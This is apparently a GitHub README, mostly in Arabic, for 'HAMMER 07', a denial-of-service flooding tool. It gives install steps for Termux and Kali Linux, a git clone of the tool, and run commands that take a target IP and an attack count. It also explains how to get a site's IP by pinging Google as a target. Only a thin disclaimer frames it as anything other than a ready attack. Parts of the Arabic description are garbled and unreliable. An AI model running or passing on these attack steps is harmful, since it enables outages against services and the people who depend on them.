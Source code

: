 #HAMMER 07

![image](https://www.google.com/url?sa=i&url=https%3A%2F%2Fhelp.mikrotik.com%2Fdocs%2Fpages%2Fviewpage.action%3FpageId%3D28606504&psig=AOvVaw3tP-Y9XnxF4LfVDiFT9SoJ&ust=1680820780492000&source=images&cd=vfe&ved=0CBAQjRxqFwoTCPiY977nk_4CFQAAAAAdAAAAABAR)

 تعد هجمات حرمان (رفض الخدمة) من أكثر الهجمات شيوعًا على الإنترنت ، وتهدف إلى إعاقة خدمة ما عن طريق إرسال مجموعة الطلبات غير الصحيحة أو لخادم الويب الذي يستضيف الخدمة. تؤدي هذه النوبات إلى الفقر الذي يؤدي إلى ارتفاعه.
 
 ### install for termux  & kali linux !
 
 <code>apt update</code>
 
  <code> apt upgrade</code>
  
  <code>apt install python</code>
  
  <code>apt install git</code>
  
  <code>apt install dnsutils</code>
  
  <code>git clone https://github.com/MR-SHANKAR7/hammer07</code>
  ### تشغيل ادات 
  <code>cd hammer07</code>
  
  <code>python hammer07.py -s [ip Address] -t 135</code>
  
   -s : 
  
  عنوان ابي لمزود لخدمة
   -t : 
   
 
 عدد هجمات
 
   ### example 
   
   
<code> python hammer07.py -s 123.45.67.89 -t 135</code>
### 
طريقة استخراج عنوان  الايبي :


نستخرج عنوان لايبي لموقع كوكل

www.google.com
داخل terminal ندخل

ping www.google.com 



# shanakr skr 07 apps developers 
#### Do not use this tool for personal purposes
### They wait for new updates
#### Thank you
